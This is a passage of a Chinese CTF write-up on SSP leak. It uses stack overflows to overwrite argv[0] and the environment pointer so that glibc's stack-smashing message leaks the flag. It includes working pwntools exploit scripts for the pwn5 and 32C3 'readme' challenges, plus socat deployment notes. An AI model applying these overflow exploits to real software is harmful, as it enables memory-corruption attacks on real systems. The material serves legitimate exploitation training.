


显然，`__libc_message`对应了那个函数指针unk_F7D6D0F0，而`argv[0]`对应的则是v7，切到汇编窗口下，根据参数的入栈顺序可知`argv[0]`最后存在的寄存器是eax



对比伪代码和汇编我们可以发现，`<unknown>`这个字符串的地址最终被放进了地址`esp+1Ch+var_10`，然后eax从`(off_F7F8C5F0-0F7F89000h)[ebx]`从取值，如果是空则把`<unknown>`放回去。所以`argv[0]`从哪取值不言而喻,对于`mov     eax, (off_F7EBB5F0 - 0F7EB8000h)[ebx]`可以结合OPCODE来理解



根据opcode表和相关资料，8B是MOV r16/32/64 r/m16/32/64，第二个字节83，根据下表



32位程序，显然对应的是`mov eax, ebx+disp32`的形式。此时把`ebx=0F7EB8000`加上opcode后面的数0x000035f0，结果就是F7EBB5F0.



所以，`(off_F7EBB5F0 - 0F7EB8000h)[ebx]`就是取ebx的值，然后加上偏移`(off_F7EBB5F0 - 0F7EB8000h)`，0X0F7EB8000还是ebx的值，所以答案就是这行代码会把地址F7EBB5F0给eax。接下来的代码则是取出地址F7EBB5F0的值给eax，若这个值是空则设置eax为`<unknown>`。然后通过F7EBB5F0查找`argv[0]`的位置




接下来就可以计算偏移覆盖到这个位置使SSP leak起作用

```python
    from pwn import *

    p = process('./pwn5')

    payload = p32(0x0804A080)*0x45  # .bss:0804A080 flag, get获取输入s在栈上的地址到0xFFC1EA44的偏移为0x45*4
    p.recv()
    p.sendline(payload)
    print p.recv()
```



关于这类题目在服务器上的的部署，测试可以发现直接通过socat搭建题目根本读不到输出，输出只会在socat所在的服务器端显示。Linux中，“一切皆文件”。Linux的头三个文件描述符0, 1, 2分别被分配给了stdin，stdout，stderr。前两者很好理解，最后的stderr，顾名思义，是错误信息输出的地方。尝试命令：`socat tcp-linsten:10001,fork EXEC:./pwn5,pty,raw,echo=0,stderr`,依旧读不出来，所以需要再研究`__libc_message (2, "*** %s ***: %s terminated\n",msg, __libc_argv[0] ?: "<unknown>");`

```c++
    // key code
        const char *on_2 = __secure_getenv ("LIBC_FATAL_STDERR_");
        if (on_2 == NULL || *on_2 == '\0')
            fd = open_not_cancel_2 (_PATH_TTY, O_RDWR | O_NOCTTY | O_NDELAY);

        if (fd == -1)
    fd = STDERR_FILENO;
```

这个函数在运行的时候会去搜索一个叫做”LIBC_FATAL_STDERR_”的环境变量，如果没有搜索到或者其值为’\x00’，则把输出的fd设置为TTY，否则才会把fd设置成STDERR_FILENO，即错误输出到stderr。所以部署的时候需要给shell设置环境变量：

```shell
    export LIBC_FATAL_STDERR_ = 1
    echo $LIBC_FATAL_STDERR_
```

接下来部署题目就可以正常读到flag，关于这种利用方法，`~/32C3 CTF/readme`,题目在部署的时候不需要设置环境变量，而是通过修改环境变量指针指向输入的字符串来泄露flag。(指向环境变量的指针就在指向`argv[0]`的指针往下两个地址)
程序主要功能在函数sub_4007e0中

```c++
    unsigned __int64 sub_4007E0()
    {
    __int64 v0; // rbx
    int v1; // eax
    __int64 v3; // [rsp+0h] [rbp-128h]
    unsigned __int64 v4; // [rsp+108h] [rbp-20h]

    v4 = __readfsqword(0x28u);
    __printf_chk(1LL, "Hello!\nWhat's your name? ");
    if ( !_IO_gets((__int64)&v3) )
    LABEL_9:
        _exit(1);
    v0 = 0LL;
    __printf_chk(1LL, "Nice to meet you, %s.\nPlease overwrite the flag: ");
    while ( 1 )
    {
        v1 = _IO_getc(stdin);
        if ( v1 == -1 )
        goto LABEL_9;
        if ( v1 == 10 )
        break;
        byte_600D20[v0++] = v1;
        if ( v0 == 32 )
        goto LABEL_8;
    }
    memset((void *)((signed int)v0 + 6294816LL), 0, (unsigned int)(32 - v0));   // 将v0 + 6294816LL后的(32 - v0)个字节替换为0
    LABEL_8:
    puts("Thank you, bye!");
    return __readfsqword(0x28u) ^ v4;
    }
```

第一处gets获取输入从栈顶rsp开始存放



第二处输入getc获取的输入放到0x600D20处



因为指向环境变量的指针就在指向`argv[0]`的指针往下两个地址，所以可以构造溢出来覆盖环境变量，从而读取得到的flag





通过gdb调试可以发现flag在本程序中有两处,这两处是只读的变量,地址不会改变：



显然第二个地址为我们第二次输入的位置，那么第一个地址就应该是flag存放的位置，所以可以构造脚本让`argv[0]`被覆盖为0x400d20,让后环境变量指针覆盖为0x600d20，通过第二次输入来覆盖环境变量，从而读到flag

```python
    from pwn import *

    flag_addr = 0x400d20
    envp_addr = 0x600d20

    p = process('./readme')

    payload = 'A'*0x118
    payload += p64(flag_addr)   # 覆盖argv[0]
    payload += p64(0)   # 填充到环境变量的指针
    payload += p64(envp_addr)    # 覆盖环境变量指针指向第二次输入的位置

    p.recvuntil("What's your name? ")
    p.sendline(payload)
    p.recvuntil("Please overwrite the flag: ")
    p.sendline("LIBC_FATAL_STDERR_ =1")
    print p.recv()
```

## 其他绕过思路

可以通过修改栈中的局部变量，从而控制函数中的执行流程达到任意地址写(0CTF 2015的flaggenerator)，直接“挖”到canary产生的本源——AUXV(Auxiliary Vector)，并修改该结构体从而使canary值可控(TCTF 2017 Final的upxof)，等等。
